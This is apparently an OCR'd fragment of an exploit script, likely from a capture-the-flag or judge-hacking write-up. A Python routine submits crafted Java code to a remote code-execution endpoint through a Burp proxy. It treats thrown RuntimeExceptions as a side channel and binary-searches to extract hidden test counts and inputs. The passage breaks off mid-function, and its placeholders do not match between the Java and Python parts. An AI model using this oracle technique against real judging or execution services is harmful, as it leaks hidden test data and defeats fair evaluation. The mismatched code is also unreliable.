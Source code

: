 ```python
public class Run {
    public static void main(String[] args) {

        File graph = new File(args[0]);
        File tests = new File(args[1]);

        List<String> graph_content = readFileContent(graph);
        List<String> test_content = readFileContent(tests);
        String[] parts = test_content.get(LINE).split(" ");
        int testint = Integer.parseInt(parts[INDEX]);
        if (testint > TEST){
            throw new RuntimeException();
        }else{
            return;
        }
    }

    private static List<String> readFileContent(File file) {
        List<String> lines = new ArrayList<>();
        try (BufferedReader reader = new BufferedReader(new FileReader(file))) {
            String line;
            while ((line = reader.readLine()) != null) {
                lines.add(line);
            }
        } catch (IOException e) {
            System.err.println("An error occurred while reading the file: " + file.getPath());
            e.printStackTrace();
        }
        return lines;
    }
}'''

proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080',
}

def islargerthan_tests(index,number):
    index = str(index)
    number = str(number)
    payload = javatests.replace("FIRST",index).replace("SECOND",number)
    burp0_data = {"code": payload}
    a = requests.post(burp0_url, proxies=proxies,headers=burp0_headers, data=burp0_data)
    if "runtime" in a.text:
        return True
    else:
        return False


def findtests():
    low, high = 1, 500000
    while low <= high:
        mid = (low + high) // 2
        if islargerthan_tests(0,mid):
            low = mid + 1
        else:
            high = mid - 1
    return low

#tests = findtests()
tests=8
print("tests:"+str(tests))
def islargerthan_inputs(line,index,test):
```